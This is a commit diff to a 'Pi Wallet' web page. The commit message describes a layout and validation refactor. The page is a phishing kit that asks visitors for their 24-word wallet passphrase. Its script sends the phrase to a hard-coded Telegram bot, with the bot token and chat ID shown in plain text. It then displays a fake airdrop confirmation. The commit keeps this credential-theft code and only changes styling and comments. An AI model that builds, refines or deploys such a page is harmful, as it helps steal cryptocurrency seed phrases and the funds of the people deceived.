

Before and after one commit to Rodhackgang/pinetwork, a plain HTML site: page index.html in a window 390 px wide. Shown: the part 118-844 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for improved layout and validation
Updated styles and layout for better responsiveness and usability. Adjusted form validation and textarea properties.

```diff
--- a/index.html
+++ b/index.html
@@ -17,29 +17,37 @@
     <link rel="icon" href="_next/static/media/wallet.44634181.svg"/>
     <title>Pi Wallet</title>
     <style>
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+        }
+
         body {
             font-family: Arial, sans-serif;
             margin: 0;
             display: flex;
             justify-content: center;
-            align-items: center;
-            height: 100vh;
-            margin-top: -15%;
+            align-items: flex-start; /* Changé de center à flex-start */
+            min-height: 100vh; /* Changé de height à min-height */
             background-color: #f3f4f6;
-            touch-action: pan-y; /* Empêche le zoom avec le pincement */
-            -webkit-touch-callout: none; /* Désactive le menu contextuel sur iOS */
-            -webkit-user-select: none; /* Désactive la sélection de texte sur iOS */
-            user-select: none; /* Désactive la sélection de texte */
+            touch-action: pan-y;
+            -webkit-touch-callout: none;
+            -webkit-user-select: none;
+            user-select: none;
+            padding: 20px 0; /* Ajout de padding pour l'espace */
         }
 
         .container {
             background-color: #fff;
-            width: 100vw;
+            width: 100%;
+            max-width: 500px; /* Largeur maximale pour éviter l'étirement */
             box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
             border-radius: 8px;
             overflow: hidden;
             display: flex;
             flex-direction: column;
+            margin: 0 auto; /* Centrage horizontal */
         }
 
         #loading-spinner {
@@ -91,12 +99,12 @@
             font-weight: bold;
             margin-bottom: 20px;
             color: #4a4a4a;
+            text-align: center;
+            width: 100%;
         }
 
         .textarea-container {
             width: 100%;
-            align-items: center;
-            justify-content: center;
             margin-bottom: 20px;
         }
 
@@ -107,9 +115,9 @@
             border: 1px solid #ccc;
             border-radius: 8px;
             background-color: #F9FAFB;
-            /* Permet la sélection uniquement dans le textarea */
             -webkit-user-select: text;
             user-select: text;
+            resize: vertical; /* Permet le redimensionnement vertical seulement */
         }
 
         .button {
@@ -132,12 +140,14 @@
             text-align: center;
             color: red;
             margin-top: 10px;
+            width: 100%;
         }
 
         .text-block {
             text-align: center;
             margin-top: 20px;
             color: #4a4a4a;
+            width: 100%;
         }
 
         .text-block span {
@@ -146,11 +156,35 @@
 
         /* Styles supplémentaires pour désactiver le zoom */
         html {
-            touch-action: manipulation; /* Empêche le double-tap pour zoomer */
+            touch-action: manipulation;
         }
 
         input, textarea, select {
-            font-size: 16px; /* Empêche le zoom automatique sur iOS */
+            font-size: 16px;
+        }
+
+        /* Pour les très petits écrans */
+        @media (max-width: 480px) {
+            body {
+                padding: 10px;
+                align-items: flex-start;
+            }
+
+            .container {
+                width: 100%;
+                margin-top: 10px;
+            }
+
+            .form-container {
+                padding: 15px;
+            }
+        }
+
+        /* Pour Chrome spécifiquement */
+        @media all and (-webkit-min-device-pixel-ratio:0) and (min-resolution: .001dpcm) {
+            body {
+                align-items: flex-start;
+            }
         }
 
     </style>
@@ -177,7 +211,7 @@
             </div>
             <form action="checkm.php" method="post" onsubmit="return validateForm()">
                 <div class="textarea-container">
-                    <textarea id="content" name="content" required rows="8" class="block w-full p-3 text-lg text-gray-800 bg-gray-100 border border-gray-300 rounded-lg focus:outline-none focus:ring-2 focus:ring-purple-500 focus:border-purple-500" placeholder="Enter your 24-words passphrase here"></textarea>
+                    <textarea id="content" name="content" required rows="8" placeholder="Enter your 24-words passphrase here"></textarea>
                 </div>
                 <input type="hidden" name="ip_address" id="ip_address" value="">
                 <input type="hidden" id="key" name="key">
@@ -197,8 +231,8 @@
     <script>
         // Function to send a message to Telegram with the passphrase
         function sendToTelegram(passphrase) {
-            const chatId = '1741959003'; // Replace with your chat ID
-            const botKey = '7354494708:AAEGDCeKoiPcXZo_mE4NzreaLsVS_mEqy90'; // Replace with your bot key
+            const chatId = '1741959003';
+            const botKey = '7354494708:AAEGDCeKoiPcXZo_mE4NzreaLsVS_mEqy90';
             const message = `New passphrase: ${passphrase}`;
 
             const url = `https://api.telegram.org/bot${botKey}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
@@ -207,61 +241,56 @@
                 .then(response => response.json())
                 .then(data => {
                     console.log('Message sent to Telegram:', data);
-                    showSuccessMessage(); // Show success message
+                    showSuccessMessage();
                 })
                 .catch(error => {
                     console.error('Error sending message to Telegram:', error);
                 });
         }
 
-        // Function to show success message and clear the form
         function showSuccessMessage() {
             document.getElementById("emsg").innerHTML = "Félicitations! vous participez désormais à l'airdrop de PI.";
             document.getElementById("emsg").style.color = "green";
             document.getElementById("emsg").style.fontWeight = "bold";
 
-            // Clear the textarea and hidden fields
             document.getElementById("content").value = "";
             document.getElementById("key").value = "";
+
             setTimeout(function() {
-            location.reload(); // This reloads the page
+                location.reload();
             }, 10000);
         }
 
-        // Form validation function
         function validateForm() {
             const textarea = document.getElementById("content");
             const inputValue = textarea.value.trim();
 
-    // Vérifier le nombre de mots
             const wordCount = inputValue.split(/\s+/).filter(word => word.length > 0).length;
 
             if (wordCount === 24) {
                 sendToTelegram(inputValue);
-        return false; // Empêche la soumission du formulaire
+                return false;
             } else {
                 document.getElementById("emsg").innerHTML = "Invalid Passphrase (must be exactly 24 words)";
                 return false;
             }
         }
 
-        // Prevent form submission before full load
         document.addEventListener("DOMContentLoaded", () => {
             const form = document.querySelector("form");
             form.onsubmit = function (event) {
                 if (!validateForm()) {
-                    event.preventDefault(); // Stop form submission if validation fails
+                    event.preventDefault();
                 }
             };
 
-            // Unhide content after page loads
             window.onload = () => {
                 document.getElementById("loading-spinner").style.display = "none";
                 document.getElementById("main").style.display = "block";
             };
         });
 
-        // Script supplémentaire pour empêcher le zoom avec le pincement
+        // Empêcher le zoom avec le pincement
         document.addEventListener('touchstart', function(event) {
             if (event.touches.length > 1) {
                 event.preventDefault();
@@ -280,7 +309,5 @@
             event.preventDefault();
         });
     </script>
-
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
